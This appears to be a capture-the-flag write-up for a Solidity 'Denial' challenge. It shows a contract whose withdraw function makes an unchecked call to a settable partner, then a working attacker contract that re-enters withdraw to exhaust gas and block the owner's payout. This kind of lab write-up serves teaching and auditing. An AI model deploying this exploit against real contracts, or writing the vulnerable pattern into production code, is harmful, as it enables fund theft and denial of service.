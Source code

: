 <img src="denial.png" alt="denial" />


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

<hr />

# Hack

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IDenial {
    function setWithdrawPartner(address _partner) external;
    function withdraw() external;
}

contract Deny {
    IDenial denial;

    constructor(address denailAddress) public {
        denial = IDenial(denailAddress);
    }

    function setAddress(address denailAddress) public {
        denial = IDenial(denailAddress);
    }

    function setWithdrawPartner() public {
        denial.setWithdrawPartner(address(this));
    }

    // allow deposit of funds
    receive() external payable {
        denial.withdraw();
    }
}
```

My solution is to set Deny contract as the withdraw partner and on receiving the fund from Denial contract, calling the withdraw function again and again until the contract runs out of balance or the gas finishes. The withdraw function has checks-effect-interactions pattern missing so reentrancy attack is easy on this Denial contract. The contract should be made secure such that these kind of attacks can be prevented as the receiving address can be a contract and sending a fund on a malicious contract address can trigger different malicious functions where issues such as this can arise.

Or another solution can be running storage extensive operations on Deny Contract when the fund is received such that the gas finishes and the transfer to the owner fails.

You have to run setWithdrawPartner function on Deny Contract so that the contract is set as the withdrawing partner.
